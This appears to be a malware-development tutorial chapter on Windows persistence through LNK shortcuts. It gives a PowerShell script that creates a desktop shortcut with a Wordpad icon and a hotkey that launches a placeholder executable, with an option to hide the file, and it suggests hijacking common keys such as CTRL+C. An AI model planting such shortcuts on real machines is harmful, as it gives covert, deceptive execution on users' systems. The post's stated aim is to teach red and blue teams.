

\newpage
\subsection{89. malware development: persistence - part 23. LNK files. Simple Powershell example.}

﷽

{width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows LNK files.     

### LNK

According to [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943), an `LNK` file serves as a shortcut or "link" in Windows, providing a reference to an original file, folder, or application. For regular users, these files serve a meaningful purpose, facilitating file organization and workspace decluttering. However, from an attacker's perspective, `LNK` files take on a different significance. They have been exploited in various documented attacks by APT groups and, to my knowledge, remain a viable option for activities such as phishing, establishing persistence, executing payloads.     

Do you know that Windows shortcuts can be registered using a shortcut key in terms of execution? This is the main trick for malware persistence in this case.    

### practical example

Let's say we have a "malware". As usually, `meow-meow` messagebox application `hack.c`:    

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And then, just create powershell script for create `LNK` file with the following properties:     

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

As you can see, the logic is pretty simple. We simply create a shortcut on the desktop that has a hotkey specified: `CTRL+W`. Of course, in real attack scenarios it could be something like `CTRL+C`, `CTRL+V` or `CTRL+P`, etc.    

For example, if you create a shortcut for `Paint`, it does not have any hotkey specified:    

{width="80%"}    

> Explorer restricts shortcut support to commands beginning with CTRL+ALT. Additional sequences must be set programmatically through COM.    

### demo

Let's go to see everything in action. First of all, compile our "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

For checking correctness, run it:    

```powershell
.\hack.exe
```

{width="80%"}    

The just run our powershell script for persistence:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

{width="80%"}    

As a result, Meow LNK file is created successfully.    

If we look at its properties, everything is ok:     

{width="80%"}    

Finally just run it and try to trigger `CTRL+W` hotkey:     

{width="80%"}    

{width="80%"}    

As you can see, everything worked perfectly as expected! =^..^= :)    

This technique is used by APT groups like [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) and software like [Emotet](https://attack.mitre.org/software/S0367/) in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Many thanks to my friend and colleague [Anton Kuznetsov](https://twitter.com/yrevichus), he reminded me of this technique when he presented one of his most amazing talks.     

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     
